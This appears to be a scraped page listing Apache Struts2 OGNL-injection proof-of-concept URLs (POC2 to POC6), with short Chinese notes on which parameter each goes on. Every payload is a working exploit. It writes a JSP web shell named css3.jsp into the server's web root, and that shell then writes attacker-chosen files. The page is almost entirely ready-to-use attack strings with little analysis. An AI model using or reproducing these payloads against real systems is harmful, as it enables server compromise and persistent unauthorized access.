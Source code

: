 POC2（类型转换漏洞需要把POC加在整型参数上）:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close())%2b'%20&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

```

POC3（需要注意这里也必须是加载一个String(字符串类型)的参数后面，使用的时候把URL里面的两个foo替换成目标参数（注意POC里面还有个foo））:

```
http://127.0.0.1/Struts2/hello.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close())(meh%29&z[%28foo%29%28%27meh%27%29]=true&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

```

POC4:

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close()(aa)&x[(class.classLoader.jarPath)('aa')]&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

```

POC5:

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close()}&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

```

POC6:

```
http://localhost/Struts2/test.action?redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23p%3d(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22).replaceAll("\\\\", "/"),new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

```
